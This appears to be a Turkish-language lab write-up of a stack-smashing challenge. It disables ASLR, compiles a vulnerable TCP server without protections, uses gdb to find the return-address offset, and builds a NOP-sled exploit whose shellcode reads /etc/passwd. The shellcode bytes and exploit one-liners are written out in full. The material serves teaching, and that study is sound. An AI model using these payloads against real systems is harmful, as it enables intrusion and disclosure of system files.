 # Stack-Smashing

NOTE: Bu örnek https://github.com/mecand/reveng/tree/master/5-StackSmashing/Challenges/example3 adresinden alınmıştır.

NOTE: ASLR kapatılmıştır.
	
	$sudo su
	$echo 0 > /proc/sys/kernel/randomize_va_space
------------------------------------------------------------------------

1- Kaynak kod derlenmiştir.

	$gcc -fno-stack-protector -m32 -no-pie -g -z execstack tcp_server.c -o tcp_server

2- Program çalışma mantığı basit olarak şu şekildedir:

	$./tcp_server [port] ---------------------------------> belirttiğimiz portu dinlemeye başlıyor.

[ikinci terminal açılıp]:

	$python -c "print 'A'*1024" | nc 127.0.0.1 1234	------> dinlenen porta bağlanıp girdi veriyor.

3- Kaç byte'dan sonra bufferın taşacağını bulmak için 1048 tane 'A' girdisi verilmiştir. Ve gdb ile program açılmış
zafiyetin olduğu vyl_read fonksiyonunun ret instructer'ına breakpoint konmuştur.Program çalıştırılmış ve ikinci bir
terminalden de bağlantı yapılmış, girdi verilmiştir.
	
	$python -c "print 'A'*1048" | nc 127.0.0.1 1234
	$gdb -q tcp_server
	(gdb) disas main
	(gdb) disas vuln_read
	(gdb) b *0x........
	(gdb) r 1234

	$python -c "print 'A'*1048" | nc 127.0.0.1 1234

-ilk breakpointte ret instructer'ı çalıştırılmadan önce EIP'ye denk gelecek kısım belirlenmiş. Yani tam olarak 1044. 
byte'dan sonra gidilecek adres yazılabilir.
 
	(gdb) x/300wx $esp


4- Exploit yazma kısmına geçilebilir. Yazılacak exploitteki 'A'ların yerine '\x90' yazılmış ve bunların arasına shellcode yerleştirilmiştir. Ve shellcode 'un başlangıç adresi bulunmuş ve 'BBBB' yerine yazılmıştır.(\x90 yazılmasının sebebi, EIP o adrese gidince eğer geriye düşerse orada hiç bir işlem yapmadan ilerlesin)
İnternetten yapılacak işe özel shellcode indirilmiştir. Kendinizde yazabilirsiniz.(shellcode aslında oppcodelardan oluşan bir code parçasıdır.)
Bu örnekte yapılacak iş '/etc/passwd'yi yazdırmak olacaktır:

shellcode: '\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f'
	   '\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80'
	   '\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80'

Bu shellcode 58 byte'tır ve girdi (840 + shellcode + 146) olarak bölünmüştür.

5- exploit'in prototipi çalıştırılmış ve gdb ile shellcode adresi bulunmuştur.
	
	[1. Terminal]
	(gdb) r 1234	
	
	[2. Terminal]
	$python -c "print '\x90'*840 + '\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80' + '\x90'*146 + 'BBBB'" | nc 127.0.0.1 1234
	
	[1. Terminal]
	(gdb) x/300wx $esp
	
6- exploit'in son hali şu şekilde olacaktır:

	$python -c "print '\x90'*840 + '\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80' + '\x90'*146 + '\xe0\xcd\xff\xff'" | nc 127.0.0.1 1234
